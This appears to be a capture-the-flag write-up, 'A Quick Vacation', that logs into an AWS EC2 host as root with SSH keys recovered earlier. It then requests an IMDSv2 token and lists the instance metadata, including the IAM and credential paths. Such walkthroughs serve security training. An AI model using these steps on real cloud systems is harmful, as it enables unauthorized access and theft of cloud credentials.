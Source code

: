 # A Quick Vacation

## Description





## Solution

From earlier challenge we find SSH keys. Let's review the public key which will contain the username and the hostname information.

```bash
cat func_adm/id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAA...s= root@ip-3-140-244-184
```

We find the target IP address which is `3.140.244.184` and the username is `root`. We can try login to SSH service using the private key.

```
chmod 600 id_rsa
ssh -i id_rsa root@3.140.244.184
...
root@ip-172-31-23-45:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Having root access we can explore the file system to see if there are any interesting files lying around. We find nothing interesting there. Let's continue to see if this instance also has configured with any other role. 

```bash
root@ip-172-31-23-45:~# curl http://169.254.169.254
...
 <head>
  <title>401 - Unauthorized</title>
 </head>
 <body>
  <h1>401 - Unauthorized</h1>
 </body>
</html>
```

This instance has [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) enabled meaning it require a token in the request header to authenticate us to the service. Let's issue below command to configure the header. 

```bash
TOKEN=`curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/ | head
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hibernation/
hostname
iam/
identity-credentials/
instance-action
```
